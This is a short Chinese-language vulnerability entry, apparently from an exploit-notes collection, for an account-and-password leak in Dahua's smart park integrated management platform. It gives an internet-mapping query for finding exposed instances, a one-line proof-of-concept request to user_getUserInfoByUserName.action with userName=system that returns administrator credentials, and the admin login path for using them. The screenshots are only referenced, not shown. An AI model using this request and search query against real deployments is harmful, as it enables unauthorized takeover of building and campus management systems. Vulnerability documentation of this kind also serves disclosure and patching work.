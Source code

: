 # 大华 智慧园区综合管理平台 user_getUserInfoByUserName.action 账号密码泄漏漏洞

## 漏洞描述

大华 智慧园区综合管理平台 user_getUserInfoByUserName.action 中存在API接口，导致管理园账号密码泄漏

## 漏洞影响

<a-checkbox checked>智慧园区综合管理平台 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="dahua-智慧园区综合管理平台"</a-checkbox></br>

## 漏洞复现

![img](../../../.vuepress/public/img/1645602936890-c40b0210-c98e-465a-b54d-4d5ce28cbdf1-20230814133226060.png)



请求POC

```javascript
/admin/user_getUserInfoByUserName.action?userName=system
```

![img](../../../.vuepress/public/img/1645603053384-cfa58ef1-09bd-41bf-ae36-aac6e71aa639.png)

获取后访问地址 

```javascript
/admin/login_login.action
```

![img](../../../.vuepress/public/img/1647425652303-43761555-6005-4458-96a7-d7990bcaca9b.png)